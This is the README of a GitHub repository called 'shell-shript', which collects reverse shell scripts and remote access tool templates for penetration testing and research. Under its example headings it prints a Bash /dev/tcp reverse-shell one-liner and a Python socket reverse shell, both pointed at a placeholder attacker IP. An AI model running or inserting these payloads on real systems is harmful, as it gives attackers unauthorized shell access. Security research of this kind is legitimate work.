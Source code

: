 # shell-shript

## Overview

**shell-shript** is a repository dedicated to reverse shell scripting, with a focus on code and techniques for building Remote Access Tools (RATs). It serves as a resource for learning, experimenting, and developing scripts to establish reverse shells, which are commonly used in penetration testing, security research, and for understanding remote administration technologies.

> **Disclaimer:**  
> This repository is intended for educational purposes, penetration testing, and research only. Unauthorized use of these scripts against systems you do not own or have explicit permission to test is strictly prohibited.

---

## Features

- Example reverse shell scripts in various languages (e.g., Bash, Python, Perl, etc.)
- Templates for building custom RATs
- Explanations of how reverse shells work
- Tips for obfuscation, persistence, and evasion (for authorized testing!)
- Guides for safe and legal usage

---

## Getting Started

1. **Clone the repository:**
   ```bash
   git clone https://github.com/Nithin-3/shell-shript.git
   cd shell-shript
   ```

2. **Explore the scripts:**
   - Browse the available scripts in language-specific folders or files.
   - Read comments and documentation within each script for usage instructions.

3. **Test in a controlled environment:**
   - Set up a local virtual machine or a lab for safe script execution.
   - Always ensure you have explicit authorization before using these tools on any network or device.

---

## Example: Bash Reverse Shell

```bash
bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1
```

## Example: Python Reverse Shell

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("attacker_ip",port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; subprocess.call(["/bin/sh","-i"])
```

---

## Contribution

Contributions are welcome! Please submit pull requests for new scripts, improvements, or documentation. Always include clear comments and usage instructions.

---

## Legal Notice

This project is for educational and authorized penetration testing use ONLY.  
**Using these scripts on systems without explicit permission is illegal and unethical.**

---

## License

This project is licensed under the [MIT License](LICENSE).

---
